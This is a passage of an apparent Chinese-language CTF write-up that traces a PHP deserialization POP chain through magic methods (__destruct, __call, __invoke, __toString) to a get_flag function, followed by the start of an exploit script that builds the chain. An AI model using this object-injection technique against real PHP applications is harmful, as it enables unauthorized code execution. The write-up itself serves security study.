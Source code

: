 这里的`POP`链也很简单，首先我们的目标是`GetFlag::get_flag()`，在`string1::__toString()`调用了`get_flag()`，这里把`GetFlag`类对象赋值给`$str1`即可

`func::__invoke()`有字符串和属性拼接的操作，我们只需要将`string1`的类对象赋值给`$mod1`即可触发`__toString()`方法，接着看哪里触发了`__invoke()`方法

`__invoke()：当尝试以调用函数的方式调用一个对象时触发`，`funct::__call()`中有`$s1()`调用函数方式，而`$s1 = $this->mod1;`，所以只需要把`func`类对象赋值给`$mod1`即可触发`__invoke()`，接下来看如何触发`__call()`

`__call()：在对象上下文中调用不可访问的方法时触发`，在`Call::test1()`存在调用未定义的不可访问方法，将`funct`类对象赋值给`$mod1`，然后`start_gg::__destruct()`调用了`Call::test()`，把`Call`类对象赋值给`$mod1`即可，整个`POP`链如下：

```php
start_gg::__destruct()->Call::test1()->funct::__call()->func::__invoke()::string1::__toString()->GetFlag::get_flag()
```

利用脚本如下:

```php
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new Call();//把$mod1赋值为Call类对象
        }
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1 = new funct();//把 $mod1赋值为funct类对象
        }
        public function test1()
        {
                $this->mod1->test2();
        }
}

class funct
{
        public $mod1;
        public $mod2;
        public function __construct()
        {
                $this->mod1= new func();//把 $mod1赋值为func类对象

        }
        public function __call($test2,$arr)
        {
                $s1 = $this->mod1;
                $s1();
        }
}
class func
{
        public $mod1;
        public $mod2;
```